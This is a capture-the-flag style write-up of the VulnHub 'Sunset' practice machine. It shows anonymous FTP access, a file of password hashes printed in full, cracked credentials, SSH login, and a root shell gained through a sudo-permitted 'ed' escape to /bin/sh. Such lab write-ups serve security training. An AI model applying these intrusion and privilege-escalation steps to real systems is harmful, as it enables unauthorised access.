








<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/sunset-1,339/">Sunset</a>
  <br>
</h1>

<h4 align="center"> Author: whitecr0wz </h4>

## Nmap



Only two ports are open and since FTP allowed anonymous login so let's start with that.

***

## FTP

After logging into FTP with anonymous credentials I found a file named `backup`



That file contained the hashes of some of the passwords.



```
➜ cat backup
CREDENTIALS:
office:$6$$9ZYTy.VI0M7cG9tVcPl.QZZi2XHOUZ9hLsiCr/avWTajSPHqws7.75I9ZjP4HwLN3Gvio5To4gjBdeDGzhq.X.
datacenter:$6$$3QW/J4OlV3naFDbhuksxRXLrkR6iKo4gh.Zx1RfZC2OINKMiJ/6Ffyl33OFtBvCI7S4N1b8vlDylF2hG2N0NN/
sky:$6$$Ny8IwgIPYq5pHGZqyIXmoVRRmWydH7u2JbaTo.H2kNG7hFtR.pZb94.HjeTK1MLyBxw8PUeyzJszcwfH0qepG0
sunset:$6$406THujdibTNu./R$NzquK0QRsbAUUSrHcpR2QrrlU3fA/SJo7sPDPbP3xcCR/lpbgMXS67Y27KtgLZAcJq9KZpEKEqBHFLzFSZ9bo/
space:$6$$4NccGQWPfiyfGKHgyhJBgiadOlP/FM4.Qwl1yIWP28ABx.YuOsiRaiKKU.4A1HKs9XLXtq8qFuC3W6SCE4Ltx/
```

After removing the `CREDENTIAL` from the file I ran the file through john without any wordlist.

I got password for 3 user



```
sky:sky
sunset:cheer14
space:space
```

and was able to login into SSH via `sunset's` password.



And now we can get the `user` hash.



***

## Privilege escalation

I downloaded the enumeration script from my own system and then ran it to see if I can find anything interesting.

The enumeration script gave out nothing but I found out that user `sunset` had some sudo priveleges.



We can run the `ed` binary as root.

I searched the `ed` binary on gtfobins and found [gtfobins/ed](https://gtfobins.github.io/gtfobins/ed/).

I was able to get the root shell with the following commnad:

```bash
$ sudo -u root ed
!/bin/sh
```



***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.
